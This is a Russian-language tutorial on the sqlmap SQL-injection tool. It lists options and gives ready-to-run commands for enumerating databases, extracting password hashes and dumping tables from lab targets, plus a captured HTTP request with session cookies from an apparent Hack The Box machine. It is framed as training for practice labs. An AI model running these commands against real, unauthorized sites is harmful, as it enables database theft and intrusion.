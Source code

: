 ## SQLMAP

## Введение

**Sqlmap** — это бесплатный инструмент на **Python**, для автоматизации поиска, эксплуатации и тестирования уязвимостей **SQL**.

[Sqlmap](https://spy-soft.net/sqlmap/) — это, наверное, самый известный сканер для поиска **SQL**-инъекций. Его разработкой занимаются Мирослав Штампар (Хорватия) и Бернардо Дамеле (Италия). Особенность этого сканера в том, что он может не только найти ошибку, но и сразу эксплуатировать ее, причем в полностью автоматическом режиме. Умеет работать с **БД MySQL**, **MS SQL**, **PostgreSQL** и **Oracle**.

**Возможности SQLMap:**

- Автоматическое обнаружение **SQL** инъекций, в том числе слепых инъекций.
- Внедрение в веб-приложение для выполнения произвольных **SQL** запросов и получения несанкционированного доступа к БД.
- Извлечение данных из БД, включая пароли пользователей.
- Возможность работы через прокси и эвазионные техники для обхода **WAF**.
- Поддержка широкого списка **СУБД**, включая **MySQL**, **Oracle**, **PostgreSQL** и др.

Этот инструмент способен обнаружить уязвимости **SQL**-инъекции с использованием различных методов. Если будет обнаружена уязвимость, он способен атаковать сервер для определения имен таблиц, загрузки базы данных и автоматического выполнения SQL-запросов.

Как только он обнаруживает SQL-инъекцию на целевом хосте, вы сможете:

- Провести обширное обнаружение версии базы данных бэкэнда
- Получить имя пользователя и базы данных сессии DBMS
- Перечислить пользователей, хеши паролей, привилегии и базы данных
- Выгрузить всю таблицу/столбцы DBMS или конкретную таблицу/столбцы пользователя
- Выполнить пользовательские SQL-запросы

---

## Установка SQLMap

**SQLMap** по умолчанию установлен в некоторые секьюрити дистрибутивы, такие как [Kali Linux](https://spy-soft.net/kali-linux-live-usb-persistence/) (в полной версии).

Для установки **SQLMap** на **Kali Linux** (легкую версию) или другие дистрибутивы на базе **Debian**, выполните команду:
``` 
sudo apt-get install sqlmap
```
Еще один способ установки — это скачивание из [репозитория проекта на GitHub](https://github.com/sqlmapproject/sqlmap "репозитория проекта на GitHub").

---

## Использование SQLMap на Kali Linux

После установки, откройте справку и изучите **параметры использования**:
```
sqlmap  -h
```
**Параметры справки**:
```
-h, --help — показать основное сообщение справки и завершить выполнение
-hh — показать расширенное сообщение справки и завершить выполнение
--version — показать номер версии программы и завершить выполнение
-v VERBOSE — уровень детализации: 0-6 (по умолчанию 1)
```
>**Цель** — должен быть предоставлен хотя бы один из этих параметров для определения цели(ей):
``` 
-u URL, --url=URL — целевой урл(например, "http://www.site.com/vuln.php?id=1")
-g GOOGLEDORK — обработать результаты Google dork как целевые урлы
```
>**Инъекция** — эти аргументы могут быть использованы для указания, какие параметры тестировать, предоставить пользовательские внедряемые данные и необязательные сценарии модификации:
```
-p TESTPARAMETER — параметр(ы), подлежащий(е) тестированию
--dbms=DBMS — принудительно задать используемую СУБД (базу данных)
```
>**Обнаружение** — эти аргументы могут быть использованы для настройки фазы обнаружения:
```
--level=LEVEL — уровень тестирования (1-5, по умолчанию 1)
--risk=RISK — уровень риска тестирования (1-3, по умолчанию 1)
```
>**Техники** — эти аргументы могут быть использованы для настройки тестирования конкретных техник SQL-инъекций:
```
--technique=TECH.. — используемые техники SQL-инъекций (по умолчанию "BEUSTQ")
```
>**Перечисление** — эти аргументы могут быть использованы для перечисления информации о СУБД, структуре и данных в таблицах:
```
-a, --all — получить все

-b, --banner — получить баннер СУБД
--current-user — получить текущего пользователя СУБД
--current-db — получить текущую базу данных СУБД
--passwords — перечислить хеши паролей пользователей СУБД

--tables — перечислить таблицы базы данных СУБД
--columns — перечислить столбцы таблиц базы данных СУБД
--schema — перечислить схему СУБД

--dump — получить записи таблицы базы данных СУБД
--dump-all — получить все записи таблиц всех баз данных СУБД
-D DB — база данных СУБД для перечисления

-T TBL — таблица(ы) базы данных СУБД для перечисления
-C COL — столбец(ы) таблицы базы данных СУБД для перечисления
```

---

##### **Опции**

- `--data` – указываем параметры для тестирования, передающиеся в **POST**-запросе (например, `data=&quot;txtLoginID=skan&amp;txtPassword=pass&amp;cmdSubmit=Login&quot;`);
- `--crawl` – сканирование сайта с целевого **URL**. С помощью этой опции можно выставить глубину, ниже которой sqlmap не будет сканировать (например, `--crawl=3`);
- `-f --forms` – парсинг и анализ форм на целевом **URL**;
- `-dbs` – ключ для перечисления имеющихся баз данных;
- `--sql-shell` - получить шелл для взаимодействия с базой данных с использованием языка запросов **SQL**.
- `-sql-query STRING` - выполнит указанную нами команду/запрос. Например: `-sql-query "SELECT * FROM products"` 
- `--sqlmap-shell` - интерактивный **shell** самого **sqlmap**. Пример:
	```
	sqlmap -u "http://<IP-адрес>/index.php?username=&password=&" --sqlmap-shell
	
	sqlmap-shell> --dbs
	```
---

##### **Примеры использования**

- `sqlmap --url http://www.hacktory.lab/?id=1` – сканировать параметр id в интерактивном режиме;
- `sqlmap --url http://www.hacktory.lab/?id=1 --batch` – сканировать параметр id автоматически;
- `sqlmap --url http://www.hacktory.lab/?id=1 --dbs` – получить список БД;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db --tables` – для БД db получить список таблиц;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db -T table --dump-all` – для БД db и таблицы table получить все данные.

---

##### **Другие примеры**
```
sqlmap --help
sqlmap -u "<url>" --cookie="name=value"
```
Для более детального сканирование можно скопировать нужный пакет с запросом из burpsuite в файл request.txt и далее использовать сканирование:
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10 --hex 
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> --tables --threads 10 --dump-all
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> -T <table> -C <column>,<column2> --dump --threads 10
```
где request.txt:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6ImVKeENTWE5uTmk0WEtQT0crMXJpM0E9PSIsInZhbHVlIjoiblo4V0tBdGF1REIvOEpadnl3eFRyMWF5Z29LWG1vWGFMaTFBSm1rYnUzMng2MHl4enpWR1paQ2ljaWNZQlZvQ2d4Uy9NbTloVThwSkRQemZwZ2VFNkFBdk15ZkVEOHd0ZzhhTjZtTHhIYSt4aEwrbGRsS0xxSHpGb1I1blZDOGMiLCJtYWMiOiI5NTFmNDBiMzJhZjBkMzhkMjNmNzRkMmUxMTZkYjg5OTBmOWM2MzE3NzIxNzViNjhkMTk3ZWI4ODYxM2FlOGYwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im9wRVFkK0RRcFk4NlRpTmhUZys5dGc9PSIsInZhbHVlIjoiVUVwYXJtdWg5R3BZSWhEMHhnZDFOVTJZZkVzU3lPY1ViMUxtUWFKZUN5NFpNTHBmSGJRMjV5UDNOYm5IdXhqZGNnRDFicTBhekZYTnJrUXdTNWlWcEh2UVhPTmVlVmYwOXN6WlZzVGFkREZHWWlTOU91a3RNdEFUWGdLMFgwTGMiLCJtYWMiOiJiMzExMGE3ZDliYzczOWYxNzk2NGJiOTliZDQyYzdhZTQzMjBmZjZiZjZhY2QyYWE4YjkyNzg3MThiYTc5MTUzIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=NX6KOxDfLMuybJ3qXJh69reEQvm2aNkfNxeSui9U&email=qwelab
```

## Где новичку практиковаться по SQLi?

Я рекомен­дую прой­ти пару тре­ниро­воч­ных заданий. Нап­ример, мо­дуль [HTB Academy](https://spy-soft.net/hack-the-box/), пос­вящен­ный SQLi, или [ана­логич­ный модуль](https://tryhackme.com/room/sqlinjectionlm "ана­логич­ный модуль") на пло­щад­ке [TryHackMe](https://spy-soft.net/tryhackme/). А еще луч­ше — оба!

За­тем можете заг­лянуть на сайт PortSwigger и прой­ти «путь» [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection "SQL injection"). Сра­зу пре­дуп­реждаю, что он слож­ный и даже очень слож­ный для нович­ка, но там вез­де при­веде­ны отве­ты. Луч­ше в них не смот­реть сра­зу, но, если вдруг зас­тря­нете, они выручат.

Еще могу пореко­мен­довать две очень инте­рес­ные лабора­тор­ные работы с пло­щад­ки Hack The Box: PC и Magic или хотя бы те их час­ти, что свя­заны с ата­ками на веб и получе­нием поль­зователь­ско­го фла­га (повыше­ние при­виле­гий в Linux можете пока не тро­гать).